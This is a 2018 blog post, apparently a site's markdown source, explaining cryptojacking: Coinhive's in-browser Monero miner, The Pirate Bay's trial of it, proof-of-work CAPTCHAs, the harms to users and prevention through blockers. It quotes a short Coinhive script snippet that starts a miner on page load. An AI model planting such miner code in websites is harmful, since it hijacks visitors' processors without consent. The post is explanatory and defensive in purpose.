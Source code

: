 ```yaml
---
title: "Cryptojacking: cryptography in service of the Devil"
date: 2018-01-07T12:33:21+08:00
categories: ["security"]
draft: false
---
```

A new  revenue stream has been implemented by the end of the last year. Maybe cryptojacking did not get yet the hype it deserves but it has been  already widely used. Most Internet consumers are not aware of it though its intentions are far from being innocent. It may also generate inequalities among Internet users.

## Definition
Cryptojacking is about using the user’s device processor, with or without his consent, to mine cryptocurrency when visiting a given webpage which is not necessarily compromised but can do that on purpose. It starts instantly upon visiting a cryptocurrency mining webpage. In its most nefarious form, cryptojacking does not require permission or any other form of effort from the user to be run. In other words, cryptojacking consists in hijacking the user’s devices (computer, smartphone, tablet ...etc) to pilfer digital profit. 
## Background
It all started on September 2017, when a company called Coinhive<sup>[1](#b1)</sup>  devised a mining component for the Monero (coin equivalent in Esperanto)  cryptocurrency that a webpage can hide in a form of a JavaScript script that looks as follows:
```javascript
<script src="https://coinhive.com/lib/coinhive.min.js"></script>
<script>
        var miner = new CoinHive.User('<site-key>', 'john-doe');
        miner.start();
</script>
```
The motivation behind Coinhive’s product was to offer an alternative  income stream for websites to ads which suffer from their own security pitfalls. This company offers a  flexible JavaScript API to play with the mining component at will. Hence   PirateBay is the first website used this API to raise funds<sup>[2](#b2)</sup>:<br/><br/>
*As you may have noticed we are testing a Monero javascript miner. <br/>
This is only a test. We really want to get rid of all the ads. But we also need enough money to keep the site running.<br/>
Let us know what you think in the comments. Do you want ads or do you want to give away a few of your CPU cycles every time you visit the site?*
<br/><br/>
Personally, I see such an approach equivalent to when you ask someone the permission to rape him. That said, I remember I read somewhere else that most PirateBay users accepted an in-browser mining to reduce adds. And since that, copycats have been cropping up to claim funds raising or reducing adds. Nefarious attackers can mine digital money for themselves by compromising a given website to take advantage of its traffic<sup>[3](#b3)</sup>. There is even a Google Chrome extension<sup>[4](#b4)</sup> which is removed from the Web Store for mining cryptocurrency in the background without the knowledge and consent of its users.
## POW CAPTCHA

To prevent spamming activities, website provide a challenge response test in the form of CAPTCHA to be solve by the visitor to check if that is a human or a machine.  But nowadays, most probably you have already encountered a website which relies on the proof of work CAPCHA. The concept of POW CAPTCHA<sup>[5](#b5)</sup>  consists in forcing your CPU to solve a mathematical puzzle in the form of a hashing algorithm for the Monero Blockchain. 

This is how POW CAPTCHA looks like:

![POW CAPTCHA](pow_captcha.gif)

While this technique makes your surfing easier and flatters your laziness in that you do not need to solve the CAPTCHA manually by yourself, you pay the website by letting it exploit your CPU and raise your electrical bills. Of course, depending on the speed and power of your machine, you may wait more or less than other visitors to be able to surf on the website in question.

## Danger
This technique is more insidious than the most common malicious JavaScript attacks such as drive-by download ones which often lead to sneak nefarious software into the user’s machine. In practice, cryptojacking is mostly intentional and secretive.

Running several cryptojacked webpages may have dramatic consequences emanating from an overwhelmed machine’s processor: that can range from interrupted work to damaging the hardware (as it is the case with the infamous  Android trojan called Loapi<sup>[6](#b6)</sup>) passing by data loss or a glitch in an organization's network. There is a simpler yet effective impact to frequently land on cryptojacking webpages: that will increase your electric bills as the CPU of your machine is “forced” to work more.

## Prevention
Ad blockers can protect against cryptojacking. There is an extension called No Coin for the Google Chrome users. The last version of Opera (50)<sup>[7](#b7)</sup> ships with a built-in cryptojacking blocker. It is worth to mention that as soon as the user closes the tab of the cryptojacking webpage, the CPU cycles inherent to it and used for mining are freed (but this may not always the case.
Although lot of scanners already block Coinhive cryptojacking and categorize it as malware, attackers can always find a way to circumvent them (using obfuscated code, for instance) or by  hosting their own mining intermediary for JavaScript components to call back to.

## Note
POW CAPTCHA will prevent spamming activities because these later ones are done rather by computer botnet<sup>[8](#b8)</sup>, so the attacker does not worry about how much CPU power is taken from the  machines under his control. On the other hand, cryptojacking compromises the browsing user experience, and maybe one day everybody will have to buy a more expensive computer in order to surf on the Internet, or have to pay more electrical bills to read news online instead of paying for the conventional membership. Definitely, given our nature as humans, cryptojacking may be a source to nourish inequality among Internet consumers.

------
<sup><a name="b1"><sup>1</sup> </a>coinhive.com</sup><br/>
<sup><a name="b2"><sup>2</sup> </a>https://thepiratebay.org/blog</sup><br/>
<sup><a name="b3"><sup>3</sup> </a>https://www.washingtonpost.com/news/the-switch/wp/2017/10/13/hackers-have-turned-politifacts-website-into-a-trap-for-your-pc/</sup><br/>
<sup><a name="b4"><sup>4</sup> </a>https://gadgets.ndtv.com/apps/news/archive-poster-google-chrome-extension-cryptocurrency-mining-1794930</sup><br/>
<sup><a name="b5"><sup>5</sup> </a>https://www.cs.utexas.edu/~seang/blog/proof-of-work-captcha.html</sup><br/>
<sup><a name="b6"><sup>6</sup> </a>https://www.kaspersky.com/blog/loapi-trojan/20510/</sup><br/>
<sup><a name="b7"><sup>7</sup> </a>https://techcrunch.com/2018/01/03/opera-now-protects-you-from-cryptojacking-attacks/</sup><br/>
<sup><a name="b8"><sup>8</sup> </a>https://news.ycombinator.com/item?id=7944540</sup><br/>
